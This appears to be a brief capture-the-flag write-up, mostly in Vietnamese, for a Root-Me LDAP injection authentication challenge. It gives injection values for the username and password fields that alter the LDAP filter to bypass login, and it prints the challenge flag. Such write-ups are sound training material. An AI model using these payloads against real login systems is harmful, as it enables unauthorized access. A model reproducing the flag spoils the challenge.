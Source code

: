 # [LDAP injection - Authentication](https://www.root-me.org/en/Challenges/Web-Server/LDAP-injection-Authentication)

## Solutions

Thử nhập các ký tự làm xuất hiện lỗi cú pháp ldap, phân tích được query có dạng:

- `(&(uid=...)(userPassword=...))`

Nhập:

- username: `*)(|(&`
- password: `)`

=> Sẽ thành `(&(uid=*)(|(&)(userPassword=)))`

Kết quả:

- Lấy được flag ở response: `SWRwehpkTI3Vu2F9DoTJJ0LBO`

## References

- <https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Blackhat%20Europe%202008%20%20-%20LDAP%20Injection%20&%20Blind%20LDAP%20Injection.pdf?_gl=1>
